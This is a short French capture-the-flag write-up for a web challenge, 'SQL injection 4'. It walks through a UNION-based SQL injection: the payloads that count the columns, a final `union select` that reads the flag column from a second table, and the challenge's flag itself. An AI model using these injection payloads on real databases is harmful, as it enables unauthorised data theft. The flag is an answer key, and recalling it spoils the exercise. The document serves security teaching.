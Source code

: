 # SQL injection 4

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Ce quatrième défi d'injection SQL requiert de charger des données qui sont dans une autre table. La table `users` ne contient qu'un seul utilisateur: `admin`. Cependant, il existe une nouvelle table `flag` qui contient un certain nombre de colonnes. Parmis ces colonnes, on trouve la colonne `flag` qui contient ce que vous cherchez. 

## Setup

Requirements:
- BurpSuite

# Writeup

https://portswigger.net/web-security/sql-injection/union-attacks

En se basant sur la technique expliquée dans la page web ci-haut, on doit déterminer le nombre de colonnes. 

`" union select 1 from flag--`
`" union select 1,2 from flag--`
`" union select 1,2,3 from flag--`

Les deux premières requêtes donnent un erreur. La troisième retourne `3`. On sait que pour afficher le flag, on devra utiliser la troisième colonne, donc on essaye la requête `" union select 1,2,flag from flag--`. 

C'est à ce moment qu'on obtient le flag `FLAG-373fc3b97cb4cd80d07942d92add1379unionizethis`.
